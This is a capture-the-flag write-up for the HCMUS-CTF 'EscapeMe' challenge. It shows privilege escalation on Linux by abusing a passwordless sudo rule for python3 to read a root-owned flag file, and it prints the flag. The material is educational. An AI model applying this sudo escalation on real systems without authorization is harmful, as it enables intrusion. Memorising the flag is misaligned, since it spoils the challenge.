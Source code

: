 ## EscapeMe (100 points)

#### Solved by hieplpvip

```
Can you escape me!

ssh ctf@61.28.237.24 -p30402 password: hcmus-ctf

author: pakkunandy

p/s: the flag.txt is in the /home/ctf. If it is not exist. Please wait and then login again.
```

Let's check what we can run as root:

```
$ sudo -l
Matching Defaults entries for ctf on escapeme-5c599b968f-gwjcv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ctf may run the following commands on escapeme-5c599b968f-gwjcv:
    (ALL) NOPASSWD: /usr/bin/python3
```

We can run `python3` as root without password. We will use this to get the flag:

```
$ sudo python3
Python 3.6.9 (default, Jan 26 2021, 15:33:00)
[GCC 8.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.system('cat /home/ctf/flag.txt')
HCMUS-CTF{privilege_escalation_is_fun!!!}
```

**Flag:** `HCMUS-CTF{privilege_escalation_is_fun!!!}`

### References

- [https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)
